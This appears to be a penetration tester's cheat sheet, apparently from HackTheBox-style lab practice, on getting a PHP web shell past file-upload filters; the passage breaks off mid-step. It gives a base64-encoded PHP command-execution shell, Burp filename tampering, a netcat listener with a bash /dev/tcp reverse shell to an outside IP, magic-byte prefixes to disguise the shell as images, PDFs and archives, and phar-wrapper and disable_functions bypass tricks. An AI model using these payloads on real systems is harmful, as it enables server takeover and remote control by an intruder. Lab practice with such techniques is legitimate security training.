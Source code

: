 ```
PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsnY21kJ10pOyA/Pgo=
```
- rename file dank.php.jpg
```
cp dank.php dank.php.jpg
```
- upload dank.php.jpg to site, capture with burp and change name to dank.php
- open image of file in browser and add ?cmd=id to the end to see if code executes. if so, start `nc -lvnp 443` and run:
```
bash -c 'bash -i >%26 /dev/tcp/10.10.14.172/443 0>%261'
```
- or other shells
Magic Number
```
printf '\x89PNG\r\n\x1A\n' | cat - shell.php > shell.png
```
- create png
```
printf '\xFF\xD8\xFF\xE0\x00\x10JFIF\x00' | cat - shell.php > shell.jpg
```
- creates jpg
```
printf 'GIF89a' | cat - shell.php > shell.gif
```
- creates gif
```
printf 'BM' | cat - shell.php > shell.bmp
```
- bmp
```
printf '\x49\x49\x2A\x00' | cat - shell.php > shell.tif
```
- tif
```
printf '%PDF-1.4\n' | cat - shell.php > shell.pdf
```
- pdf
```
printf '\x50\x4B\x03\x04' | cat - shell.php > shell.zip
```
- zip
If none of the changes above work individually, try combination. For example:
- convert to `shell.png` and when uploading change to `shell.php.png` in burp
If upload appends .php to end of file, can use phar
- create shell.php file containing `<?php phpinfo(); ?>`
```
zip shell.phar shell.php
```
- creates phar zip containing shell.php
	- can be accessed via url via phar://path/to/archive.phar/internal/path/to/file.php
if upload filters out .php files:
```
mv shell.phar shell.0xdf
```
- changes name of file to arbitrary file extension to bypass filter
then upload `shell.0xdf` and navigate to file ex: http://dev.siteisup.htb/?page=phar://uploads/900ef1a94818a750d28b0f67291e9a94/shell.0xdf/shell
- .php gets automatically appended at the end
- if works should see php info page
	- look for disable_functions section to see which php functions are prevented to then design php rev shell
	- can also use dfunc-bypasser.py
```
python3 dfunc-bypasser.py --url 'http://dev.siteisup.htb/?page=phar://uploads/900ef1a94818a750d28b0f67291e9a94/shell.0xdf/shell'
```
- if proc_open isn't disabled, create rev.php shell containing